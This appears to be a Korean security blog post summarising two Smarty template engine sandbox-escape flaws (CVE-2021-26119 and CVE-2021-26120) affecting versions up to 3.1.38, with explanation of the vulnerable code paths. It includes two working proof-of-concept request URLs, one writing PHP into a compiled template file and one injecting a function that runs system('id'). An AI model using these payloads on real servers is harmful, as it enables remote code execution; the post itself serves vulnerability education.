 ```yaml
---

title: "[하루한줄] Smarty Template Engine Sandbox escape"
author: Fabu1ous
tags: [Fabu1ous, cve, sandbox, php, injection]
categories: [1day1line]
date: 2021-02-20 14:00:00
cc: true
index_img: /img/1day1line.png
---
```




## **URL**

[Smarty Template Engine Sandbox escape PHP Code Injection](https://srcincite.io/blog/2021/02/18/smarty-template-engine-multiple-sandbox-escape-vulnerabilities.html)



## **Target**

Smarty Endgine <= 3.1.38



## **Explain**

Smarty는 PHP용 template engine입니다. Smarty는 presentation(html/css)과 app logic을 분리시키는 PHP insulation(sandbox)을 통해 injection 공격의 피해범위를 제한합니다. 하지만 Template injection이 가능할 때 sandbox escape를 할 수 있는 취약점이 발견되었습니다.



* CVE-2021-26119

super global 변수 `$smarty.template_object`를 이용한  Template injection이 가능할 때 Smarty의 인스턴스에 접근할 수 있습니다. `compile`함수가 `{$poc=$smarty.template_object}`와 같은 값을 받으면 `$poc`에 `Smarty_Internal_Template` 객체를 할당합니다.

```
object(Smarty_Internal_Template)#7 (24) {  
  ["_objType"]=>
  int(2)  
  ["smarty"]=>
  &object(Smarty)#1 (76) { ... }
  ["source"]=>
  object(Smarty_Template_Source)#8 (16) { ... }
  ["parent"]=>
  object(Smarty)#1 (76) { ... }
  ["ext"]=>
  object(Smarty_Internal_Extension_Handler)#10 (4) { ... }
  ["compiled"]=>
  object(Smarty_Template_Compiled)#11 (12) { ... }
```

위는 `Smarty_Internal_Template`객체입니다. 해커는 `["smarty"]`또는 `["parent"]` 값을 사용해 Smarty의 인스턴스에 접근할 수 있고 arbitrary file write로 공격 범위를 확장할 수 있습니다.

```URL
http://localhost:8000/page.php?poc=string:{$s=$smarty.template_object->smarty}{$fp=$smarty.template_object->compiled->filepath}{Smarty_Internal_Runtime_WriteFile::writeFile($fp,"<?php+phpinfo();",$s)}
```



* CVE-2021-26120

template syntax를 컴파일하는 과정에서 `Smarty_Internal_Runtime_TPlFunction`클래스는 attacker controlled data인 `name`을 필터링하지 않아 함수 인젝션을 할 수 있습니다.

```javascript
/* input = {function name='test'}{/function} */

if (!function_exists('smarty_template_function_test_8782550315ffc7c00946f78_05745875')) {
    function smarty_template_function_test_8782550315ffc7c00946f78_05745875(Smarty_Internal_Template $_smarty_tpl,$params) {
	    foreach ($params as $key => $value) {
            $_smarty_tpl->tpl_vars[$key] = new Smarty_Variable($value, $_smarty_tpl->isRenderingCache);
        }
    }
}

```

입력 `{function name='test'}{/function}`을 받은 컴파일러는 위와 같은 코드를 생성합니다. 

```URL
http://localhost:8000/page.php?poc=string:{function+name='rce(){};system("id");function+'}{/function}
```

